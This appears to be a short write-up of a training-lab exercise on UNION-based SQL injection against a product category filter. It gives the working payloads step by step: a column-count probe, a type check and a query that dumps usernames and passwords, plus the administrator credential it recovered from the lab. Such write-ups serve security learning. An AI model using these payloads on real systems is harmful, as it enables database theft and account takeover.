

**SQL Injection: Product category filter**

*- Goal: Output the usernames and passwords in related table and login as `administrator` user*

*- Analyse:*

1. Determine # of the columnns that the vulnerable query is using
> ` ' order by 3--`: 
> appears Internal Server Error --> 2 columns
2. Determine data type of the columns
> ` ' UNION select 'a','a'--`: 
> no Error --> both columns are data type of string
3. Retrieve datas
> ` ' UNION SELECT username,password FROM users--`: 
> there are lots of accounts appearing, we find admin account here:
> administrator - hketiof1vp3megfdjskh

*`LAB SOLVED`*
